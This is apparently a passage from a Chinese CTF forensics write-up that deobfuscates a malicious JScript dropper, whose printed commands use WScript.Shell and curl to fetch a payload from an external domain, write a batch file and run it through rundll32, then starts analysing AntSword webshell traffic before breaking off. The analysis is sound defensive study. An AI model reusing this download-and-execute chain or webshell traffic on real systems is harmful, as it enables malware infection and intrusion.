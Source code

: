 > $ head Nuj.js 

去掉注释提取出`js`代码

```shell
truefalse.match(  )( new ActiveXObject( WScript.Shell ) ).Run( \\, ,  )undefinedcmd.exe /c del WScript.ScriptFullNamecmd.exe /c echo|set /p=cu > %temp%dolorem.p.batcmd.exe /c echo rl  --output %temp%dolorem.p --ssl-no-revoke --insecure --location >> %temp%dolorem.p.batcmd.exe /c %temp%dolorem.p.bat%temp%dolorem.p.batcmd.exe /c ren %temp%dolorem.p rundll32 %temp% Entercmd.exe /c %temp%https://shakyastatuestrade.com/IhA6F/616231603qui.q
```

> $ sed -r 's#/\*.*\*/##g' Nuj.js|grep "'.'" -o|awk -F '' '{print $2}'|paste -sd ''

> **flag{shakyastatuestrade.com}**



# 流量特征分析-蚁剑流量分析

![image-20240609201543675](../assets/img/old_imgs/image-20240609201543675.png)

搜索`http`流找到后门,跟踪发现蚁剑流量

`decode`

```http
POST /1.php HTTP/1.1
Host: 192.168.200.54
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_6; zh-cn) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27
Content-Type: application/x-www-form-urlencoded
Content-Length: 4861
Connection: close

```